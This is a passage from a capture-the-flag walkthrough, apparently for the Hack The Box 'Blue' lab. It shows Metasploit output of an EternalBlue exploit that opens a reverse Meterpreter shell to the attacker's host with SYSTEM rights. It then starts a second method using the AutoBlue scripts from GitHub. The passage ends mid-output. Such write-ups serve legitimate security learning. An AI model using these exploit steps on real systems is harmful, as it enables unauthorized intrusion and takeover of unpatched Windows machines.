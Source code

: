 [*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.10.10.40:49164) at 2021-05-25 09:23:36 -0400

[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > 
```
Wohoo!! We got a shell. 

Now Checking if we have root access or not.
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
Yes, we got the root access. So, we don't need to do any post privilege escalation. 
You can check various commands allowed in the remote machine using ```help``` command.

Now, you just have to navigate to desktop of both user and Admistrator and get the flag. I will not be posting the flag here.

## Method 2: Using AutoBlue available on Github.

You can easily get the python link by using this python script available on github.
https://github.com/3ndG4me/AutoBlue-MS17-010

You can read through the details on how to use it on the above page. It is very user friendly. 

I have cloned the repo using 
```
git clone https://github.com/3ndG4me/AutoBlue-MS17-010
```
Following the instructions given on the github page-
```
➜  AutoBlue-MS17-010 git:(master) ✗ python3 eternal_checker.py 10.10.10.40
[*] Target OS: Windows 7 Professional 7601 Service Pack 1
[!] The target is not patched
=== Testing named pipes ===
[*] Done
```
Basically Target not patched means that the target machine is vulnerable.
```
➜  AutoBlue-MS17-010 git:(master) ✗ ls                         
eternalblue_exploit10.py  eternalblue_exploit8.py  LICENSE           mysmb.py   __pycache__  requirements.txt  zzz_exploit.py
eternalblue_exploit7.py   eternal_checker.py       listener_prep.sh  mysmb.pyc  README.md    shellcode
➜  AutoBlue-MS17-010 git:(master) ✗ cd shellcode 
➜  shellcode git:(master) ✗ ./shell_prep.sh 
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler
